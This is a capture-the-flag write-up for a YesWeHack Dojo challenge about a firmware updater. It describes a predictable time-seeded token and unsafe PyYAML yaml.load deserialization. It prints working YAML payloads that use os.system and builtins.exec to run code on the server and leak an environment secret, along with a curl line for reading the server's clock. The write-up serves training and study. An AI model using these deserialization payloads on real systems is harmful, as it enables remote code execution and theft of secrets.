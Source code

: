 # YesWeHack Dojo43 CCTV Manager Write-Up

<p align="justify">The targeted app is a firmware updater implementing a token-based access control.It generates a "root" token and compares it against a "guest" token provided by the user.
If the tokens match, it loads a YAML config (expected to contain firmware data), instantiates a Firmware object, and calls its update() method. As a matter of fact, update method from firmware class is empty and don't do anything.Finally, it renders an index.html template showing whether access was granted.</p>

## Code analysis
<p align="justify">The application implements a weak token-based authentication mechanism, where the server-generated token could be predicted or matched by an attacker. Combined with the insecure use of yaml.load() on untrusted input, this enabled malicious YAML payloads to trigger Python built-in functions and achieve Remote Code Execution (RCE). This flaw allowed attackers to bypass authentication, execute arbitrary code, and disclose sensitive information such as environment variables (including the flag). </p>

<p align="justify">Below is the function used to generate 'random' token, taking current time (namely server time) as seed :</p>

````python
def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))
````

<p align="justify">This is a very weak access control implementation insofar as server time can be easily catched using following cmdline. As a result token can be successfuly generated: </p>

````bash
curl -sI https://dojo-yeswehack.com | grep -i '^date:' | cut -d' ' -f2-
````

<p align="justify">Once token is validated yaml firware is loaded thanks to following lines. This load method is officialy deprecated for security reason. Instead </p> 

````python
    try:
        data = yaml.load(yamlConfig, Loader=yaml.Loader)
        firmware = Firmware(**data["firmware"])
        firmware.update()
    except:
        pass
````

## solve 1 

````bash
firmware:
  version: !!python/object/apply:os.system
  - |
    echo $FLAG
````

## solve 2  

````bash
firmware:
  version: !!python/object/apply:builtins.exec 
  - |
    import threading
    def leak_flag():
        import os
        flag = os.environ.get("FLAG", "no_flag")
        raise Exception(f"FLAG_LEAK: {flag}")
    threading.Thread(target=leak_flag).start() # starting thread in server context triggers error relfected in output server (see snippet below)
````
